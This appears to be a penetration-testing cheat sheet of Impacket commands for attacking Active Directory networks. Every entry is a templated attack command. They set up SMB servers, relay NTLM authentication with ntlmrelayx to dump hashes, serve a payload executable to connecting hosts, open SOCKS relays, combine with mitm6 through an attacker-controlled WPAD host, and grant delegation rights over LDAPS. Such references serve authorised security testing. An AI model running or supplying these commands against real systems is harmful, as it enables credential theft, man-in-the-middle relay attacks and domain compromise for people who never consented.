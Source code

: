 # Impacket

## smbserver - share smb folder
#assessment/AD #target/serve #port/445 #protocol/smb #cat/ATTACK/LISTEN-SERVE 

A Python implementation of an SMB server. Allows to quickly set up shares and user accounts.

```
smbserver.py <shareName> <sharePath>
```

## smbserver - share smb folder with authentication
#assessment/AD #target/serve #port/445 #protocol/smb #cat/ATTACK/LISTEN-SERVE 

```
smbserver.py -username <username> -password <password> <shareName> <sharePath>
```

## ntlmrelay - host a payload that will automatically be served to the remote host connecting
#assessment/AD #target/serve #cat/ATTACK/MITM 

```
ntlmrelayx.py -tf <targets_file> -smb2support -e <payload_file|payload.exe>
```

## ntlmrelay - socks
#assessment/AD #target/serve #cat/ATTACK/MITM 
```
ntlmrelayx.py -tf <targets_file> -socks -smb2support
```

## ntlmrelay - authenticate and dump hash
#assessment/AD #target/serve #cat/ATTACK/MITM 
```
ntlmrelayx.py -tf <targets_file> -smb2support
```

## ntlmrelay - to use with mitm6 - relay to target
#assessment/AD #target/serve #cat/ATTACK/MITM 
Next use the socks with proxychains : 
proxychains smbclient //ip/Users -U domain/user

```
ntlmrelayx.py -6 -wh <attacker_ip> -t smb://<target> -l /tmp -socks -debug
```

## ntlmrelay - to use with mitm6 - delegate access
#assessment/AD #target/serve #cat/ATTACK/MITM 
```
ntlmrelayx.py -t ldaps://<dc_ip> -wh <attacker_ip> --delegate-access
```
